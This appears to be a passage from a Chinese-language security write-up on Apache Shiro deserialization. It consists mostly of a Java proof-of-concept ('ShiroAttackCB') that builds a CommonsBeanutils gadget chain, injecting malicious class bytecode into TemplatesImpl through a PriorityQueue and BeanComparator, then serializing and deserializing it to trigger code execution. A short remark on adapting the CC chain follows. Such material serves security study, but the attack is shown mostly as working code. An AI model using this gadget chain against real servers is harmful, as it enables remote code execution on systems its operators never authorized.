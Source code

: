 ```java
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class ShiroAttackCB {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>(1,new TransformingComparator<>(new ConstantTransformer<>(1)));
        priorityQueue.add(templatesClass);
        priorityQueue.add(templatesClass);
        Field compareField = PriorityQueue.class.getDeclaredField("comparator");
        compareField.setAccessible(true);
        compareField.set(priorityQueue,beanComparator);
        serialize(priorityQueue);
        unserialize("cc6.ser");
    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240806175759529.png)



## CC链

就算服务器有CC依赖（可能是业务开发需要），我们也需要进行修改才能利用。
